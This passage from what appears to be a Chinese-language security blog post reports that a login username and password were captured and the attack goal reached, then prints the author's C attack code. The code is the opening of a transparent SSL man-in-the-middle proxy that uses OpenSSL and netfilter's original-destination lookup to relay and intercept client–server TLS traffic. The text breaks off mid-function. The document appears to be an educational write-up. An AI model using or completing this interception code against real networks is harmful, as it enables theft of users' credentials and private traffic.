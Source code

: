 注意观察最后一行，便是我登陆时填写的用户名和密码。至此我们的攻击目标达成了。

最后附上攻击使用的代码：

{% highlight c linenos %}
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <sys/param.h>
#include <linux/netfilter_ipv4.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/time.h>

#include <openssl/ssl.h>
#include <openssl/err.h>

#define LISTEN_BACKLOG 50

#define warning(msg) \
do { fprintf(stderr, "%d, ", sum); perror(msg); } while(0)

#define error(msg) \
do { fprintf(stderr, "%d, ", sum); perror(msg); exit(EXIT_FAILURE); } while (0)

int sum = 1;

struct timeval timeout = { 0, 1000000 };

int get_socket_to_server(struct sockaddr_in* original_server_addr) {
    int sockfd;
    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
        error("Fail to initial socket to server!");
    if (connect(sockfd, (struct sockaddr*) original_server_addr, sizeof(struct sockaddr)) < 0)
        error("Fail to connect to server!");
    printf("%d, Connect to server [%s:%d]\n", sum, inet_ntoa(original_server_addr->sin_addr),
        ntohs(original_server_addr->sin_port));
    return sockfd;
}

int socket_to_client_init(short int port) {
    int sockfd;
    int on = 1;
    struct sockaddr_in addr;
    if ((sockfd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
        error("Fail to initial socket to client!");
    if (setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, (char *) &on, sizeof(on)) < 0)
        error("reuseaddr error!");
    memset(&addr, 0, sizeof(addr));
    addr.sin_addr.s_addr = htonl(INADDR_ANY);
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    if (bind(sockfd, (struct sockaddr*) &addr, sizeof(struct sockaddr)) < 0) {
        shutdown(sockfd, SHUT_RDWR);
        error("Fail to bind socket to client!");
    }
    if (listen(sockfd, LISTEN_BACKLOG) < 0) {
        shutdown(sockfd, SHUT_RDWR);
        error("Fail to listen socket to client!");
    }
    return sockfd;
}

int get_socket_to_client(int socket, struct sockaddr_in* original_server_addr) {
    int client_fd;
    struct sockaddr_in client_addr;